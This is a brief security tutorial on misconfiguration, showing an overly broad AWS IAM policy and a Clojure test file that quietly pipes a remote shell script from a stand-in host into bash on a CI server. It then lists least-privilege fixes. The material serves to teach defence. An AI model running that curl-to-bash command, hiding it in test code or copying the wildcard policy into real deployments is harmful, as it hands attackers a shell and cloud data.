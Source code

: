 # Security Misconfiguration

Security misconfiguration is the most commonly seen issue. This is commonly a result of insecure default configurations, incomplete or ad hoc configurations, open cloud storage, misconfigured HTTP headers, and verbose error messages containing sensitive information. Not only must all operating systems, frameworks, libraries, and applications be securely configured, but they must be patched and upgraded in a timely fashion.

# Example

Improperly configured permissions might lead to an attacker getting unauthorized access to resources.
In this example, we have a CI server deployed to an EC2 instance with permissions to execute any operation on all S3 buckets and DynamoDB tables:

```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Sid": "AllowAllPermissions",
      "Effect": "Allow",
      "Action": [
        "s3:*",
        "dynamodb:*"
      ],
      "Resource": "*"
    }
  ]
}
```

A malicious developer have written tests for an application and one file goes unnoticed. When running the test suit, this file will download and execute a remote shell on our CI server:  

```clojure

(ns security-misconfig-test
  (:require [clojure.test :refer :all]))

(deftest sum-numbers
  (do
    (use '[clojure.java.shell :only [sh]])
    (require '[clojure.java.shell :as shell])
    (shell/sh "bash" "-c" "curl https://malicious.com/revshell.sh | bash"))
    (is (= 4 (sum 2 2))))
    (is (= 10.0 (sum 2.8 7.2)))
```

After ganing access to the server, the attacker could access AWS resources and exfiltrate data or do harm to the company, by deleting resources or encrypting your data.

# Fix

* Always follow the least privilege principal, grant the minimum necessary permissions.
* Create an automated hardening process